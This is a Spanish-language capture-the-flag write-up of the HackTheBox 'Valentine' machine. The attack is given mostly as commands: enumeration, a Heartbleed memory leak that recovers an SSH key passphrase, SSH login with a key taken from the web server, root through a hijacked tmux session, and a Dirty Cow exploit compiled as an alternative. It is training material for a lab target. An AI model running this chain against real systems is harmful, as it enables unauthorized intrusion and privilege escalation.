










HackTheBox
Easy
Linux
Heartbleed
OpenSSL
CVE-2014-0160
tmux
Dirty Cow
Valentine
Heartbleed extrae la frase de la clave RSA de memoria; SSH como hype; escalada via sesion tmux de root.
cat4clysm
Herramientas utilizadas
nmap
sslscan
wfuzz
heartbleed.py
john
Scanning
root@kali:~$
nmap -sC -sV -p80,443,22 -n -Pn 10.10.10.79 -oN targeted
Enumeracion Web
root@kali:~$
wfuzz -c --hc 403,404 -t 100 -w /usr/share/dirb/wordlists/common.txt http://10.10.10.79/FUZZ
Encontramos /dev/notes.txt y /dev/hype_key (clave RSA en hex).


Heartbleed - Extraccion de Memoria
root@kali:~$
sslscan 10.10.10.79
root@kali:~$
nmap --script "vuln and safe" -p 443 10.10.10.79
root@kali:~$
python heartbleed.py 10.10.10.79 -n 150
echo 'aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==' | base64 -d
# heartbleedbelievethehypeSSH con hype_key
root@kali:~$
cat hype_key | tr -d ' ' | xxd -ps -r > id_rsa
root@kali:~$
ssh -i id_rsa hype@10.10.10.79
cat /home/hype/user.txtEscalada - tmux session root
root@kali:~$
ps aux
root@kali:~$
tmux -S /.devs/dev_sess
cat /root/root.txtAlternativa - Dirty Cow
root@kali:~$
searchsploit dirty cow
searchsploit -m linux/local/40839.c
mv 40839.c dirty.c
gcc -pthread dirty.c -o dirty -lcrypt
./dirty
Lecciones aprendidas
- Heartbleed permite leer memoria del servidor incluyendo contrasenas y tokens de sesion activos.
- Los archivos de clave SSH en formato hex en el servidor web son un hallazgo critico.
- Las sesiones tmux de root sin proteccion son accesibles para cualquier usuario del sistema.